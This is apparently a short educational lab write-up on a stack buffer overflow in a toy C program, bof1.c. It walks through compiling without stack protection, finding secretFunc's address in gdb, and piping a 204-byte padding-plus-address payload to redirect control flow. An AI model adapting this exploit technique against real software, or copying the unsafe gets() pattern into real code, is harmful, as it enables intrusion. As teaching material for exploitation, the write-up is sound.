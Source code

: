 # bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control) using Python!  

# Stackframe


# Vulnerability  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes  

# Attack  
Compile file without stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](image.png)

Run gdb  
`gdb bof1.out`
![alt text](image-1.png)  

Disassemble the vuln function  
`disas vuln`
![alt text](image-2.png)  

Disassemble secretFunc  
`disas secretFunc`
![alt text](image-3.png)  
The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To create 204 bytes by generate 204 characters 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
 ![alt text](image-4.png)
